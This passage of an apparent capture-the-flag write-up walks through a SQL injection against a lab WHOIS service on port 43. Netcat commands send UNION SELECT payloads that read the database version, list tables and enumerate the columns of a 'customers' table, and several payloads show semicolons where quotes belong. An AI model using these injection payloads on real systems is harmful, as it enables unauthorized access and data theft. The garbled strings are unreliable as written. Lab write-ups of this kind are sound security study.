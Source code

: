 {% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# echo 'test' | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 0 object
root@fury-battlestation:~/htb/blog/scavenger#

{% endhighlight %}

Theoretically, the word ‘query’ (and the banner that included the server’s MariaDB version) should have tipped me off that the app is vulnerable to an SQL injection, however, I have to admit that I found the vulnerability by mistake wjile testing for something else.

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# echo ";" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ;;;;) limit 1; at line 1

{% endhighlight %}

I leveraged the new-found vulnerability and retrieved the version of database software that the server was running:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT @@version,2 #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
10.1.37-MariaDB-0+deb9u1

{% endhighlight %}

Next, I listed all the user-created databases:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT table_name,2 from information_schema.tables WHERE table_schema not in (;information_schema;,;mysql;,;performance_schema;,;sys;) #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
customers

{% endhighlight %}

There was only one table called `customers`, so I went further and started enumerating its columns:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT CONCAT(column_name, ; ;), 2 FROM information_schema.columns where table_name = ;customers; #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 3 object
id domain data 

{% endhighlight %}
